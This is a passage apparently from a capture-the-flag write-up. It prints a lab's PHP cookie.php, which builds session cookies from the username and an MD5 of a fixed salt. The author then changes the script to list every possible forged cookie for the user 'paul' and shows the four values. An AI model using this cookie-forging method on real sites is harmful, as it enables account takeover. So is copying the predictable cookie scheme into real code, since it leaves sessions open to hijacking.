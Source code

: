 `cookie.php`
```php
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528.\/9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```

We can modify the `cookie.php` to print all possible cookie values.

```php
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    for($x = 0; $x < strlen($username); $x++)
    {
      $key = "s4lTy_stR1nG_".$username[$x]."(!528./9890";
      $session_cookie = $username.md5($key);

      echo "$session_cookie\n";
    }
}

makesession("paul");
?>
```

```
$ php cookie.php
paul13908e17855ef656db3e2d5ddc2a1efc
pauld78f5990e1f882f0d9c2fb6947dee56d
paul76af6bfe49dec2b67a6ee399a2e6fbed
paul5a85be61b78600e1e81af105cb377653
```

